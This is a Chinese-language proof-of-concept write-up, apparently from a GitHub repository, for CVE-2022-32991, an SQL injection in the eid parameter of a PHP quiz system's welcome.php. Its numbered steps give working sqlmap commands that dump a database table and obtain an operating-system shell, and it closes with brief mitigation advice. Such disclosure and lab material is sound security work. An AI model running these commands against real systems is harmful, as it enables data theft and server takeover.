






# CVE-2022-32991 Web Based Quiz System SQL Injection

## Description

Web Based Quiz System v1.0 的 welcome.php 中的eid参数被发现包含一个SQL注入漏洞。

## Explanation of exploit; PoC

1. 漏洞文件welcome.php位于网站根目录。第93行没有过滤eid参数，在第96行直接带入数据库查询，导致SQL注入漏洞：
    

   2. 先注册一个普通用户然后登录，然后点击 start 按钮，用 Burp Suite 抓取数据包如下图：
    

3. 将数据包保存为 eid.txt，使用sqlmap获取数据库信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid`，如下图：
    
    

4. 获取数据库信息后，使用sqlmap获取表信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf --tables`，如下图：
    

5. 获取表信息后，使用sqlmap获取列信息，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf -T flag --columns`，如下图：
    

6. 获取列信息后，使用sqlmap获取数据，sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid -D ctf -T flag -C flag --dump`，如下图：
    

7. 也可以获取 os-shell, sqlmap注入语句为：`sqlmap -r eid.txt --dbs ---batch --random-agent -p eid --os-shell`，如下图：
    

## Mitigation

1. 对输入的数据进行过滤，防止SQL注入漏洞。
2. 使用预编译语句，防止SQL注入漏洞。

## Refer

- https://nvd.nist.gov/vuln/detail/CVE-2022-32991
- https://www.yuque.com/docs/share/fd95cc4d-2a38-4e5a-9fac-bfa3534f8056